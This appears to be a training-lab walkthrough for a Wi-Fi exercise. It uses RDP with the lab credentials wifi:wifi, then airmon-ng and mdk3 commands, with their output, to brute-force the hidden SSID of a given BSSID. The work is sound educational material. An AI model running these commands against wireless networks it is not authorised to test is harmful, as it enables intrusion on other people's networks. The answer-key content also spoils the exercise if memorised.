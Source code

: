 ### "Identify the name of the hidden SSID with the BSSID d8:d6:3d:eb:29:d5 and submit it as your answer."

Students will establish an RDP connection to the target using the credentials `wifi:wifi`:

Code: shell

```shell
xfreerdp /v:STMIP /u:wifi /p:wifi /dynamic-resolution
```

```
┌─[eu-academy-6]─[10.10.14.62]─[htb-ac-8414@htb-6jc4rgbfvz]─[~]
└──╼ [★]$ xfreerdp /v:10.129.220.220 /u:wifi /p:wifi /dynamic-resolution 

[05:22:59:683] [48823:48824] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[05:22:59:984] [48823:48824] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[05:22:59:984] [48823:48824] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[05:22:59:004] [48823:48824] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[05:22:59:004] [48823:48824] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[05:22:59:004] [48823:48824] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
```

Students will open a terminal and will utilize `airmon-ng` and `mdk3` to brute-force the SSID by focusing on using the `m` option for lower and upper case characters plus numbers on the `d8:d6:3d:eb:29:d5` BSSID:

Code: shell

```shell
sudo airmon-ng start wlan0
sudo mdk3 wlan0mon p -b m -c 1 -t d8:d6:3d:eb:29:d5
```

```
wifi@WiFiIntro:~$ sudo airmon-ng start wlan0

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

<SNIP>

wifi@WiFiIntro:~$ sudo mdk3 wlan0mon p -b m -c 1 -t d8:d6:3d:eb:29:d5

SSID Bruteforce Mode activated!

channel set to: 1
Waiting for beacon frame from target...
Sniffer thread started

SSID is hidden. SSID Length is: 15.

Got response from D8:D6:3D:EB:29:D5, SSID: "{hidden}"
```
